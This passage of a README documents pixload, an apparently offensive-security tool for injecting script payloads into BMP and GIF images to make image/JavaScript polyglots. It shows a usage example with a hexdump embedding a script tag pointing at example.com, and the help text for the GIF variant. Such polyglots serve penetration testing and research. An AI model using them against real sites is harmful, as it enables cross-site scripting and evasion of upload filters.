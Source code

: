 ##### Example

```sh
$ pixload-bmp payload.bmp
```

```
......... BMP Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.bmp

[>] Injecting payload into payload.bmp
[✔] Payload was injected successfully

payload.bmp: PC bitmap, OS/2 1.x format, 1 x 1 x 24, cbSize 10799, bits offset 26

00000000  42 4d 2f 2a 00 00 00 00  00 00 1a 00 00 00 0c 00  |BM/*............|
00000010  00 00 01 00 01 00 01 00  18 00 00 00 ff 00 2a 2f  |..............*/|
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 3d 2f  |=1;<script src=/|
00000030  2f 65 78 61 6d 70 6c 65  2e 63 6f 6d 3e 3c 2f 73  |/example.com></s|
00000040  63 72 69 70 74 3e 3b                              |cript>;|
00000047
```

See [pixload-bmp(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-bmp.1.pod)
manual page for more information.

### pixload-gif

##### Help

```sh
$ pixload-gif --help
```

```
Usage: pixload-gif [OPTION]... FILE
Hide payload/malicious code in GIF images.

Mandatory arguments to long options are mandatory for short options too.
  -W, --pixelwidth  INTEGER   (has no effect)
                              set pixel width for the new image (default: 10799)
  -H, --pixelheight INTEGER   set pixel height for the new image (default: 32)
  -P, --payload     STRING    set payload for injection
  -v, --version               print version and exit
  -h, --help                  print help and exit

The option -W, --pixelwidth has no effect since pixload-gif rewrites
pixel width bytes with "/*" characters, to prepare the polyglot gif image.

If the output FILE already exists, then the payload will be injected into this
existing file. Otherwise, the new one will be created with specified pixels
wide.
```
